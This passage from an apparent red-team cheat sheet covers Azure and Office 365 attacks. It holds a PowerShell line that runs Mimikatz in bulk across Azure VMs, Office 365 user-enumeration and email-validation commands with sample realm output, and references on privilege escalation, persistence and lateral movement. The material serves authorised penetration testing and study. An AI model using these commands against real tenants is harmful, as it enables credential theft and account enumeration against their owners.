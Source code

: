 ```powershell
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```

## Office365 - Enumerating Users

NOTE: By default, O365 has a lockout policy of 10 tries, and it will lock out an account for one (1) minute.

* Bruteforce user enum : https://bitbucket.org/grimhacker/office365userenum/src/master/ based on the endpoint https://login.microsoftonline.com/getuserrealm.srf?login=firstname.lastname@domain.com&xml=1
    ```powershell
    RealmInfo Success="true">
    <State>3</State>
    <UserState>2</UserState>
    <Login>firstname.lastname@domain.com</Login>
    <NameSpaceType>Federated</NameSpaceType>
    <DomainName>domain.com</DomainName>
    <FederationGlobalVersion>-1</FederationGlobalVersion>
    <AuthURL>
    https://fws.domain.com/o365/visfed/intrdomain/se/?username=firstname.lastname%40domain.com&wa=wsignin1.0&wtrealm=urn%3afederation%3aMicrosoftOnline&wctx=
    </AuthURL>
    ```
* Validate email : https://github.com/LMGsec/o365creeper `o365creeper.py -f emails.txt -o validemails.txt`
* Extract email lists with a valid credentials : https://github.com/nyxgeek/o365recon


## References

* [An introduction to penetration testing Azure - Graceful Security](https://www.gracefulsecurity.com/an-introduction-to-penetration-testing-azure/)
* [Running Powershell scripts on Azure VM - Netspi](https://blog.netspi.com/running-powershell-scripts-on-azure-vms/)
* [Attacking Azure Cloud shell - Netspi](https://blog.netspi.com/attacking-azure-cloud-shell/)
* [Maintaining Azure Persistence via automation accounts - Netspi](https://blog.netspi.com/maintaining-azure-persistence-via-automation-accounts/)
* [Detecting an attacks on active directory with Azure - Smartspate](https://www.smartspate.com/detecting-an-attacks-on-active-directory-with-azure/)
* [Azure AD Overview](https://www.youtube.com/watch?v=l_pnNpdxj20) 
* [Windows Azure Active Directory in plain English](https://www.youtube.com/watch?v=IcSATObaQZE)
* [Building Free Active Directory Lab in Azure - @kamran.bilgrami](https://medium.com/@kamran.bilgrami/ethical-hacking-lessons-building-free-active-directory-lab-in-azure-6c67a7eddd7f) 
* [Attacking Azure/Azure AD and introducing Powerzure - SpecterOps](https://posts.specterops.io/attacking-azure-azure-ad-and-introducing-powerzure-ca70b330511a)
* [Azure AD connect for RedTeam - @xpnsec](https://blog.xpnsec.com/azuread-connect-for-redteam/)
* [Azure Privilege Escalation Using Managed Identities - Karl Fosaaen - February 20th, 2020](https://blog.netspi.com/azure-privilege-escalation-using-managed-identities/)
* [Hunting Azure Admins for Vertical Escalation - LEE KAGAN - MARCH 13, 2020](https://www.lares.com/hunting-azure-admins-for-vertical-escalation/)
* [Introducing ROADtools - The Azure AD exploration framework - Dirk-jan Mollema](https://dirkjanm.io/introducing-roadtools-and-roadrecon-azure-ad-exploration-framework/)
* [Moving laterally between Azure AD joined machines - Tal Maor - Mar 17, 2020](https://medium.com/@talthemaor/moving-laterally-between-azure-ad-joined-machines-ed1f8871da56)
* [AZURE AD INTRODUCTION FOR RED TEAMERS - Written by Aymeric Palhière (bak) - 2020-04-20](https://www.synacktiv.com/posts/pentest/azure-ad-introduction-for-red-teamers.html)
* [Impersonating Office 365 Users With Mimikatz - January 15, 2017 - Michael Grafnetter](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)